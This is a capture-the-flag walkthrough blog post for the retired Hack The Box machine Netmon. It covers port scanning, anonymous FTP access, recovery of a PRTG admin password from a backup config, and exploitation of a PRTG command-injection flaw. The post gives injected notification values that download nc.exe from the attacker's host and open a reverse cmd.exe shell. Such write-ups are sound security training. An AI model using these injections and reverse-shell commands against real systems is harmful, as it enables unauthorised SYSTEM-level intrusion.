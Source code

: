 ```yaml
---
layout: post
title: "Netmon: Hack The Box Walkthrough"
date: 2019-06-30 05:27:39 +0000
last_modified_at: 2019-06-30 07:56:06 +0000
category: Walkthrough
tags: ["Hack The Box", Netmon, retired]
comments: true
image:
  feature: netmon-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/photos/computer-searches-internet-chat-1172404/
---
```


This post documents the complete walkthrough of Netmon, a retired vulnerable [VM][1] created by [mrb3n][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

### Background

Netmon is a retired vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.152 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-03-10 13:41:15 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49666/tcp on 10.10.10.152
Discovered open port 49664/tcp on 10.10.10.152
Discovered open port 49677/tcp on 10.10.10.152
Discovered open port 49667/tcp on 10.10.10.152
Discovered open port 49665/tcp on 10.10.10.152
Discovered open port 52337/tcp on 10.10.10.152
Discovered open port 5985/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Discovered open port 47001/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 49668/tcp on 10.10.10.152
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 53099/tcp on 10.10.10.152
```

Whoa. `masscan` finds many open ports. Let's do one better with `nmap` scanning the discovered ports to see what services are available.

```
# nmap -n -v -Pn -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49677,52337,53099 -A --reason 10.10.10.152 -oN nmap.txt
...
PORT      STATE  SERVICE      REASON          VERSION
21/tcp    open   ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open   http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
52337/tcp closed unknown      reset ttl 127
53099/tcp closed unknown      reset ttl 127
...
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-10 13:48:31
|_  start_date: 2019-03-10 13:32:38
```

Since anonymous FTP login is allowed, let's go with that first.

### File Transfer Protocol

To my pleasant surprise, `C:\Users\Public` is available.

<a class="image-popup">
![2f8bf31c.png](/assets/images/posts/netmon-htb-walkthrough/2f8bf31c.png)
</a>

And guess what, `user.txt` is here!

<a class="image-popup">
![90a90b90.png](/assets/images/posts/netmon-htb-walkthrough/90a90b90.png)
</a>

### PRTG Network Monitor

Moving on to the `http` service, this is how it looks like.

<a class="image-popup">
![542fe300.png](/assets/images/posts/netmon-htb-walkthrough/542fe300.png)
</a>

In conjunction with the official security [advisory](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37) and the [location](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) of the various configuration files, I was able to uncover a plaintext password from the file below.

<a class="image-popup">
![adca4be4.png](/assets/images/posts/netmon-htb-walkthrough/adca4be4.png)
</a>

Here's the plaintext password.

<a class="image-popup">
![56c19c7a.png](/assets/images/posts/netmon-htb-walkthrough/56c19c7a.png)
</a>

And since this is a backup and knowing administrators increment the year for convenience's sake, the password may be `PrTg@dmin2019`. Let's give it a shot.

<a class="image-popup">
![3214f2a7.png](/assets/images/posts/netmon-htb-walkthrough/3214f2a7.png)
</a>

Awesome.

### PRTG < 18.2.39 Command Injection Vulnerability

During my research for vulnerability related to PRTG, I chanced upon this [blog](https://www.codewatch.org/blog/?p=453) discussing command injection vulnerability, with `SYSTEM` privileges no less.

Follow the instructions to create a custom notification with the following parameters.

```
test.txt; Invoke-WebRequest http://10.10.15.200/nc.exe -OutFile c:\Users\Public\Downloads\nc.exe
```

If you've read the blog carefully, you'll realize certain characters are encoded. As such, I'm avoiding certain bad characters, if you will, to download a copy of `nc.exe` to `c:\Users\Public\Downloads` with PowerShell.

Verify that `nc.exe` is indeed downloaded.

<a class="image-popup">
![e26dd675.png](/assets/images/posts/netmon-htb-walkthrough/e26dd675.png)
</a>

Next, we use the following parameters to run a reverse shell back to us.

```
test.txt; c:\Users\Public\Downloads\nc.exe 10.10.15.200 1234 -e cmd.exe
```

<a class="image-popup">
![4b13a195.png](/assets/images/posts/netmon-htb-walkthrough/4b13a195.png)
</a>

Getting `root.txt` is trivial when you have `SYSTEM` privileges.

<a class="image-popup">
![4d1f295b.png](/assets/images/posts/netmon-htb-walkthrough/4d1f295b.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/177
[2]: https://www.hackthebox.eu/home/users/profile/2984
[3]: https://www.hackthebox.eu/
